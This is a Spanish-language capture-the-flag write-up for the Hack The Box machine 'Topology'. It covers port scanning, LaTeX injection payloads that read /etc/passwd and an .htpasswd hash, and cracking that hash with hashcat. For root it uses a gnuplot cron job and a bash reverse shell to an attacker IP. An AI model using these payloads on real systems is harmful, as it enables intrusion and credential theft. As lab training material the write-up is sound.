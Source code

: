 ```yaml
---
title: "Topology"
date: "2025-02-21T17:00:00-05:00"
draft: false
tags: ["crontabs", "linux", "latex", "sudo", "subdominio", "file-read", "apache2", "pspy64"]
image: "https://labs.hackthebox.com/storage/avatars/cbfa26b4a4044677e93779a44bbd458f.png"
---
```


Una maquina en la que tenemos que hacer una inyeccion latex para poder leer archivos y asi conseguir el hash del usuario para luego mediante una tarea recurrente ganar root
Dificultad: Facil

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
```

- `-p-` Escanea todos los puertos `1-65535` .
- `—open` Solo muestra los puertos que esten abiertos.
- `-sS` Stealt scan cambia el modo de escane haciendo que no se complete el hanshake.
- `—min-rate 5000` Como minimo va a enviar 5000 paquetes por segundo.
- `-vvv` Aumenta la verbosidad mostrando la maxima informacion posible mientras se ejecuta.
- `-n` Desactiva la resolucion `DNS` no va a tratar de resolver los nombres de dominio.
- `-Pn` Nmap por default manda un ping a la ip esto lo desactiva.
- `-oG allPorts` Guarda el escaneo en formato `oG` en el archivo llamado `allPorts`.

Este escaneo nos dio dos puertos el 22 y el 80 vamos a hacer un escaneo mas exhaustivo a estos puertos.

```bash
sudo nmap -sCV -p22,80 IP -A -oN target
```

- `-sCV` Esto ejecuta una serie de scripts predeterminados de nmap para obtener información adicional sobre los servicios que se encuentran abiertos, como versiones de servicios, detalles del sistema operativo, vulnerabilidades conocidas y la version exacta.
- `-p22, 80` Especifica que puertos se van a escanear.
- `-A` Activa el descubrimiento de sistema operativo, la deteccion de version, script scanning y hace un traceroute.

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F8f56c9f9-b707-4579-afc6-d61cc5d381b4%2Fimage.png/size/w=2000?exp=1740435151&sig=wAtbSfyboAWq2G8uNoBKXr0DdyYwUD-kCCxL1G2gsAs)

La pagina http que esta en el puerto 80 usa Apache 2.4.41

## Puerto 80

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F3d2e0ba3-9fd2-4d58-bd08-1850a82eaf2b%2Fimage.png/size/w=2000?exp=1740435527&sig=7L_D7v3xzs5QR4CEddtiwt-7qKpSR9EyY5jEunNNUKk)

Al momento de entrar a el link `“Latex Equation Generator”` es un subdmonio por lo que tendremos que agregarlo al `/etc/hosts` para que nos muestre lo siguiente.

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F2cf1cf7d-24a3-4e1c-a337-0bd2f8325727%2Fimage.png/size/w=2000?exp=1740436028&sig=zrdAa0WMkOFkRV4CegRmfFfEd30irAzvavfeG4NN3BI)

Algo que podemos tratar es listar los archivos dentro de este subdmonio por lo que vamos a ingresar a la siguiente url [`http://latex.topology.htb/`](http://latex.topology.htb/equation.php) dejando el ultimo `/` .

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F5c4b4682-59f0-4af1-a65a-fdcace76ce39%2Fimage.png/size/w=2000?exp=1740436164&sig=ZuSZGwnlllrbPDV2aKP5D8SVwGidyWH_LPUBPzp4hK4)

Revisando los archivos lo unico util esta en `equationtest.tex` ya que nos muestra como estan tratando la entrada Latex la web.

```latex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

Podemos observar que la entrada esta entre los signos dolar, leyendo la pagina nos dicen que latex esta en el modo “[inline math](https://www.physicsread.com/latex-math-mode/)” buscando acerca de este modo nos encontramos que hay tres formas de tratar este modo:

1. $ . . .$
2. \begin{math} . . . \end{math}
3. \( . . . \)

# Foothold

Por lo que ahora sabemos porque esta entre esos signos y confirmamos que la entrada va a estar así planeando una inyección.

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

Vamos a tratar de empezar a leer archivos del sistema con la inyección de codigo.

```latex
$ \lstinputlisting{/etc/passwd} $
```

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F7056f1c2-ef28-466b-9c8c-b698a9bdcf14%2Fimage.png/size/w=2000?exp=1740436267&sig=SF0uQb2H4VaF14shYd7nBfiZvLYOG4N-3WsoEhnkJMk)

Una vez confirmamos que podemso leer archivos vamos a empezar a leer archivos de configuracion que nos permitan ingresar al sistema.

```latex
$ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $
```

En este archivo encontramos varios directorios entre ellos uno que pertence al subdominio `dev.topology.htb` lo agregamos al `/etc/hosts` y al ingresar nos pide una contraseña.

Vamos a listar archivos de configuracion por default de apache sobre el directorio correspondiente a este subdominio.

```latex
$ \lstinputlisting{/var/www/dev/.htaccess} $
```

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F3f4ffda2-fa46-4b76-84cd-64d0ee99b678%2Fimage.png/size/w=2000?exp=1740436336&sig=BbxRE2TBqJL_RCNgEIud2ooSrLwoQE9a7MMBy6-A7vE)

Por ultimo vamos a listar este archivo.

```latex
$ \lstinputlisting{/var/www/dev/.htpasswd} $
```

Nos vamos a encontrar un usuario junto con su hash, vamos a copiarlo y guardarlo en un archivo `.txt` para hacerle fuerza bruta con `hashcat`:

```python
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt --user
```

Esto nos dara su contraseña para iniciar sesion mediante ssh.

# Root

## Enumeración

Primero vamos a hacer el tratamiento de la shell 

```bash
export TERM=xterm
```

Listo ahora vamos a tratar de listar archivos y permisos a ver si encontramos algo, pero nos daremos cuenta rapidamente que no tenemos permitido el uso de sudo ni ningun permiso extraño por lo que lo unico que tiene algo interesante son las crontab pero no nos permite listarlas por lo que vamos a usar la herramienta [Pspy](https://www.notion.so/Pspy-1a1094373800803aaa8bcb2094703815?pvs=21) https://github.com/DominicBreuker/pspy/tree/master.

```bash
#Maquina atacante 
python3 -m http.server 80

#Maquina victima
wget IP/pspy64
chmod +x pspy64 
./pspy64
```

Luego de ejecutar el ultimo comando si esperamos un rato podremos ver que hay una script que se ejecuta cada minuto `/opt/gnuplot/getdata.sh` .

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F59db9639-6575-40b1-ab9f-a229c99fe49e%2Fimage.png/size/w=2000?exp=1740436365&sig=lYIvxtJBAYbFciQ_u4kZFntUQ_P-YGC0IMQEc3dbIwQ)

Si analizamos esta salida nos daremos cuenta que lo que se esta haciendo cada minuto es buscar en el directorio `/opt/gnuplot/` todos los archivos con extension `plt` y los ejecuta.

Si tratamos de ingresar al directorio no nos lo permite pero en cambio si creamos un archivo y lo movemos a esa direccion no habra ningun conflicto. Buscando escalaciones de privilegios con `gnuplot` que es el binario que se ejecuta encontramos la siguiente https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/gnuplot-privilege-escalation.

```bash
#Maquina atacante
nc -lvnp 4444

#Maquina victima
nano rev.plt

system "bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'"

mv rev.plt /opt/gnuplot/
```

Con esto tendremos acceso como root y habremos completado la maquina.
